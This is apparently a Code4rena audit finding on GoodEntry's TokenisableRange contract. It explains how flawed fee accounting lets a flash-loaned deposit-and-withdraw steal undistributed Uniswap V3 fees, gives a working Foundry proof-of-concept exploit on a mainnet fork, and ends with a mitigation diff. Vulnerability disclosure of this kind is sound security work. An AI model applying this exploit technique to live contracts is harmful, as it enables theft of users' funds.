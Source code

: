 ## Tags

- bug
- 3 (High Risk)
- selected for report
- sponsor confirmed
- edited-by-warden
- H-04

# [TokenisableRange's incorrect accounting of non-reinvested fees in "deposit" exposes the fees to a flash-loan attack ](https://github.com/code-423n4/2023-08-goodentry-findings/issues/85) 

# Lines of code

https://github.com/code-423n4/2023-08-goodentry/blob/71c0c0eca8af957202ccdbf5ce2f2a514ffe2e24/contracts/TokenisableRange.sol#L190
https://github.com/code-423n4/2023-08-goodentry/blob/71c0c0eca8af957202ccdbf5ce2f2a514ffe2e24/contracts/TokenisableRange.sol#L268


# Vulnerability details

The `TokenisableRange` is designed to always collect trading fees from the Uniswap V3 pool, whenever there is a liquidity event (`deposit` or `withdraw`). These fees may be reinvested in the pool, or may be held in form of `fee0` and `fee1` ERC-20 balance held by the TokenisableRange contract.

When a user deposits liquidity in the range, they pay asset tokens, and receive back liquidity tokens, which give them a share of the TokenisableRange assets (liquidity locked in Unisvap V3, plus fee0, and fee1).

To prevent users from stealing fees, there are several mechanisms in place:
1. fees are, as said, always collected whenever liquidity is added or removed, and whenever they exceed 1% of the liquidity in the pool, they are re-invested in Uniswap V3. The intention of this check seems to be limiting the value locked in these fees
2. whenever a user deposits liquidity to the range, the LP tokens given to them are scaled down by the value of the fees, so the participation in fees "is not given away for free"

Both of these mechanisms can however be worked around:
1. the 1% check is done on the `fee0` and `fee1` **amounts** compared to the theoretical pool amounts, and **not on the total value of the fees** as compared to the total value locked in the pool. This means that when the price changes significantly from when fees were accumulated, the combined value of the fees can exceed, potentially by much, the 1% intended cap, without the reinvestment happening before liquidity events. A malicious user can then monitor and act in such market conditions.
2. the downscaling of the LP tokens minted to the user happens only if none of the provided liquidity is added to the pool fees instead of the Uniswap V3 position. The user can send just a few wei's of tokens to short-circuit the downscaling, and have a share of fees "for free".

## Impact
Given a TokenisableRange contract in the right state (high value locked in fees, but still no reinvestment happening) a user can maliciously craft a `deposit` and `withdraw` sequence (why not, with flash-loaned assets) to steal most of the fees (`fee0`, `fee1`) held by the pool before distribution.

## Proof of Concept
Below is a working PoC that shows under real market conditions how most of the fees (>3% of the pool assets) can be s stolen risk-free by simply depositing and withdrawing a large quantity of liquidity:
```Solidity
    function testStolenFeesPoc() public {
        vm.createSelectFork(
            "mainnet",
            17811921
        );

        vm.prank(tokenWhale);
        USDC.transfer(alice, 100_000e6);

        vm.startPrank(alice);
        TokenisableRange tr = new TokenisableRange();

        // out of range: WETH is more valuable than that (about 1870 USDC on this block 17811921); 
        // the pool will hold 0 WETH
        tr.initProxy(AaveOracle, USDC, WETH, 500e10, 1000e10, "Test1", "T1", false);

        USDC.approve(address(tr), 100_000e6);
        tr.init(100_000e6, 0);

        // time passes, and the pool trades in range, accumulating fees
        uint256 fee0 = 1_000e6;
        uint256 fee1 = 2e18;

        vm.mockCall(address(UniswapV3UsdcNFPositionManager), 
            abi.encodeWithSelector(INonfungiblePositionManager.collect.selector), 
            abi.encode(fee0, fee1));

        vm.stopPrank();
        vm.startPrank(tokenWhale);
        USDC.transfer(address(tr), fee0);
        WETH.transfer(address(tr), fee1);

        // now the price is back to 1870 USDC,
        // the undistributed fees are 1k USDC and 2 WETH, 
        // in total about $5k or 5% of the pool value 
        // (the percentage can be higher with bigger price swings)
        // but still, they are not reinvested
        tr.claimFee();
        vm.clearMockedCalls();
        require(tr.fee0() != 0);
        require(tr.fee1() != 0);

        // an attacker now can flashloan & deposit an amount that will give them
        // the majority of the pool liquidity, then withdraw for a profit
        uint256 usdcBalanceBefore = USDC.balanceOf(tokenWhale);
        uint256 wethBalanceBefore = WETH.balanceOf(tokenWhale);
        uint256 poolSharesBefore = tr.balanceOf(tokenWhale);

        USDC.approve(address(tr), 10_000_000e6);
        // this is the hack: we add just a tiny little bit of WETH so TokenisableRange doesn't
        // count the value locked in fees in assigning the LP tokens
        WETH.approve(address(tr), 1000);
        uint256 deposited = tr.deposit(10_000_000e6, 1000);
        tr.withdraw(deposited, 0, 0);

        // the profit here is
        // 1 wei of USDC lost, probably to rounding
        console2.log(int(USDC.balanceOf(tokenWhale)) - int(usdcBalanceBefore)); 
        // 1.58 WETH of profit, which is most of the fees, 
        // and definitely more than 1% of the pool. Yay! 
        console2.log(int(WETH.balanceOf(tokenWhale)) - int(wethBalanceBefore));
        require(poolSharesBefore ==  tr.balanceOf(tokenWhale));
    }
```
It is important to note that since the WETH oracle price at the forked block (17811921) is at 1870, above the 500-1000 range, the above PoC works only after fixing my other finding titled:
> Incorrect Solidity version in FullMath.sol can cause permanent freezing of assets for arithmetic underflow-induced revert

## Tools Used
Code review

## Recommended Mitigation Steps
- factor in also the token prices when calculating whether the accrued fees are indeed 1% of the pool
- when minting TokenisableRange tokens, **always** downscale the minted fees by the relative value of non-distributed fees in the pool:
```diff
    // Stack too deep, so localising some variables for feeLiquidity calculations 
-    // If we already clawed back fees earlier, do nothing, else we need to adjust returned liquidity
-    if ( newFee0 == 0 && newFee1 == 0 ){
+    {
      uint256 TOKEN0_PRICE = ORACLE.getAssetPrice(address(TOKEN0.token));
      uint256 TOKEN1_PRICE = ORACLE.getAssetPrice(address(TOKEN1.token));
      require (TOKEN0_PRICE > 0 && TOKEN1_PRICE > 0, "Invalid Oracle Price");
      // Calculate the equivalent liquidity amount of the non-yet compounded fees
      // Assume linearity for liquidity in same tick range; calculate feeLiquidity equivalent and consider it part of base liquidity 
      feeLiquidity = newLiquidity * ( (fee0 * TOKEN0_PRICE / 10 ** TOKEN0.decimals) + (fee1 * TOKEN1_PRICE / 10 ** TOKEN1.decimals) )   
                                    / ( (added0   * TOKEN0_PRICE / 10 ** TOKEN0.decimals) + (added1   * TOKEN1_PRICE / 10 ** TOKEN1.decimals) ); 
    }
```











## Assessed type

Math